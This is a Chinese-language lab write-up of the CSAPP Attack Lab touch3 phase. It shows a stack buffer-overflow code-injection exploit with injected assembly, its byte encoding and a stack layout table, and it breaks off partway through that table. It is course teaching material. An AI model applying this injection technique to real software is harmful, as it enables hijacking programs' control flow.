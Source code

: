 **思路：**

- **利用缓冲区溢出修改 getbuf 的返回地址为注入代码的地址**

- **在注入代码中，将指向 cookie 字符串（需要以0结尾）的指针传入 %rdi 作为参数，再利用 ret 跳转到touch2** 
- **调用 hexmatch 会把数据存入栈中，可能会覆盖一部分缓冲区，应该将 cookie 字符串存放在安全的位置。**

首先将 cookie 转换成对应字符串的字节表示：

```
0x59b997fa  -->  35 39 62 39 39 37 66 61
```

查看 hexmatch 的反汇编代码，发现 cbuf in %rsp, s in %rbx, random()%100 in %rcx。其中 `add    $0xffffffffffffff80,%rsp` 让 %rsp 向下移动了 0x80。因为只往 s 中写入9个字节，因此 cbuf + 8 + 99 = %rsp+0x6b 是 s 字符串所能到达的最大的地址 s_tail，**为了避免 s 覆写了存储 cookie 字符串的区域，要保证该区域的起始地址大于 s_tail**。

下图是 hexmatch 在执行 `callq  400db0 <random@plt>` 前的栈帧图，图中标明了 s_tail 的位置：

<img src="https://gitee.com/dq-agj/imags/raw/master/img/image-20230817211259432.png" alt="image-20230817211259432" style="zoom:67%;" />

对于 cookie 字符串安全的空间有两块（在上图中用橙色标出）：

1. [0x5561dc6c, 0x5561dc78)：位于 s_tail 之后，存储 canary 值（用于栈破坏检测）的区域之前。
2. [0x5561dca8, ...)

下面分别针对这两块区域进行解题：

##### 方法一：将 cookie 字符串存储在 [0x5561dc6c, 0x5561dc78)

由于输入的字符串只能从 buf (0x5561dc78)写入，因此只能间接地通过注入代码将 cookie 字符串存储在该区域。

查看 touch3 的起始地址，为 0x4018fa。编写 injected code 的指令 inst.131.s：

```assembly
subq    $0x40,%rsp              # 避免覆盖 injected code 本身的存储区域！
movl    $0x4018fa,0x38(%rsp)    # touch3 的起始地址
movl    $0x39623935,0x4(%rsp)   # 存储 cookie 的字符串的前四字节。刚好在 s_tail 之后。
movl    $0x61663739,0x8(%rsp)   # 存储 cookie 的字符串的后四字节。利用movl指令将高四个字节置0的性质，完成字符串末尾0的设置。
leaq    0x4(%rsp),%rdi          # 设置 touch3 的参数 sval 指向 cookie 的字符串表示
addq    $0x38,%rsp
retq                            # 弹出 touch3 的起始地址赋值给 PC
```

查看上述指令的字节序列：48 83 ec 40 c7 44 24 38 fa 18 40 00 c7 44 24 04 35 39 62 39 c7 44 24 08 39 37 66 61 48 8d 7c 24 04  48 83 c4 38 c3。

<img src="https://gitee.com/dq-agj/imags/raw/master/img/image-20230817212418751.png" alt="image-20230817212418751" style="zoom: 80%;" />

getbuf 返回前应该达到的栈空间状态如下：

<table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td><b>栈</b></td>
        <td colspan="2"><b>栈地址</b></td>
    </tr>
    <tr height="40">
        <td colspan="2">0x5561dc78</td>
        <td>0x5561dca0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc338c4834804</td>
        <td>0x5561dc98</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x247c8d4861663739</td>
        <td>0x5561dc90</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x82444c739623935</td>
        <td>0x5561dc88</td>